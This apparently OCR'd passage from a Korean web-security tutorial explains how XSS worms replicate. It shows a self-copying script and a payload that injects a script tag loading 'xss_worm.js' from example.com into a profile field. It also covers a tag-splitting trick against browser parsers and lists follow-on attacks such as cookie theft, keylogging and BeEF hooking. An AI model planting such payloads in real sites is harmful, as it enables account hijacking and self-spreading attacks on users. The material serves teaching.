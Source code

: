   * 이 방식은 코드를 완전히 새로 작성하는 것이 아니라, **DOM API를 활용하여 기존 페이지의 특정 콘텐츠(자신이 삽입한 악성 코드 포함)를 "우아하게" 불러와 다른 곳에 실어 보내는 것**입니다.

    ```javascript
    <script id="worm">
    // Use DOM API to get a copy of the content in a DOM node.
    var strCode = document.getElementById("worm").innerHTML;

    // Displays the tag content (for demonstration purposes)
    alert(strCode);

    // In a real attack, strCode would be used to create new malicious content
    // and submit it to the server (e.g., via AJAX POST request to update profile)
    // or inject into other parts of the DOM.
    </script>
    ```

#### Link Approach

이 방식은 악성 JavaScript 파일을 외부에서 로드하는 방식으로 스스로를 복제합니다.

  * 공격자는 악성 스크립트가 담긴 `.js` 파일을 자신의 서버에 호스팅합니다 (예: `http://example.com/xss_worm.js`).

  * 이후 공격자는 `src` 속성을 이용하여 이 `.js` 파일을 동적으로 삽입하는 `<script>` 태그를 XSS 페이로드로 사용합니다.

  * 아래 예시에서 `warmCode` 변수는 인코딩된 `script` 태그 문자열을 포함합니다. 이 문자열이 웹 페이지에 주입되면, 브라우저는 `xss_worm.js` 파일을 로드하여 실행하게 됩니다. 이 `.js` 파일은 다시 다른 사용자에게 확산될 수 있는 로직을 포함할 수 있습니다.

    ```javascript
    var wormCode = encodeURIComponent(
        "<script type=\"text/javascript\" "
        + "src=\"http://example.com/xss_worm.js\">"
        + "</" + "script>");

    // This is an example of setting content for a description field on a specific website.
    var desc="&description=SAMY is MY HERO" + wormCode;

    // (the rest of the code would be similar to how malicious input is submitted)
    // For example, an AJAX request to update a user's profile with this 'desc' payload.
    // ...
    ```

  * 위 코드에서 `</script>` 부분을 `</" + "script>`와 같이 분리하여 문자열 처리하는 이유는, **Firefox와 같은 일부 브라우저가 파싱 시 `</script>`를 단일 토큰으로 인식하여 의도치 않게 스크립트 태그를 조기에 닫아버릴 수 있기 때문**입니다. 브라우저 파싱 방식에 따라 달라질 수 있는 중요한 우회 기법입니다.

### **XSS를 활용한 주요 공격 기법**

* **세션 하이재킹 (Session Hijacking):** `document.cookie` 또는 `localStorage`에 저장된 사용자 세션 토큰을 탈취해 공격자의 서버로 전송하여 사용자 계정을 탈취합니다.
* **피싱 및 UI Redressing (Phishing & UI Redressing):** Stored XSS를 통해 실제 사이트와 똑같은 가짜 로그인 페이지를 삽입하여 사용자의 아이디와 비밀번호를 직접 탈취합니다.
* **CSRF 공격 자동화 (CSRF Automation):** 사용자가 페이지를 보는 것만으로도, 자신도 모르게 비밀번호 변경, 글 삭제, 친구 추가 등 특정 기능이 실행되도록 요청을 위조합니다.
* **키로깅 (Keylogging):** 사용자가 페이지 내에서 입력하는 모든 키보드 값을 가로채 공격자에게 전송하여 민감한 정보를 유출시킵니다.
* **브라우저 공격 프레임워크 연동 (Browser Exploitation):** **BeEF**와 같은 도구의 `hook.js`를 삽입하여 브라우저를 원격으로 제어합니다. 이를 통해 다음과 같은 2차 공격이 가능합니다.
    * 내부망 스캔 및 정찰
    * 사용자 화면 실시간 캡처
    * 가짜 알림창을 이용한 악성코드 유포
    * 클릭재킹(Clickjacking)을 통한 행위 조작
